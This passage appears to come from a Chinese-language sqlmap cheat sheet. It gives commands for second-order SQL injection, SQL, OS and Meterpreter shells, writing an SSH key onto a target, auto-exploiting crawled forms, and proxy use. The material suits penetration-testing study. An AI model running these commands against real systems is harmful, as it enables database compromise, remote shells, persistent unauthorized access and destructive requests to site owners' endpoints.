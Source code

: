 ## 二次注入

二次 SQL 注入发生在恶意 SQL 代码被注入应用程序但不立即执行，而是存储在数据库中并在另一个 SQL 查询中使用时。

```powershell
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

## 获取 shell

* SQL Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --sql-shell
    ```

* OS Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --os-shell
    ```

* Meterpreter:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --os-pwn
    ```

* SSH Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
    ```

## 爬取并自动利用

这种方法不建议用于渗透测试；它应该仅在受控环境或挑战中使用。它会爬取整个网站并自动提交表单，这可能导致意外的请求发送到敏感功能，如“删除”或“销毁”端点。

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
```

* `--batch` = 非交互模式，通常 SQLmap 会询问问题，此选项接受默认答案
* `--crawl` = 你想爬取站点的深度
* `--forms` = 解析并测试表单

## SQLmap 的代理配置

要使用代理运行 SQLmap，可以使用 `--proxy` 选项后跟代理 URL。SQLmap 支持多种类型的代理，如 HTTP、HTTPS、SOCKS4 和 SOCKS5。

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
sqlmap -u "http://www.target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" --proxy-cred="user:pass"
```
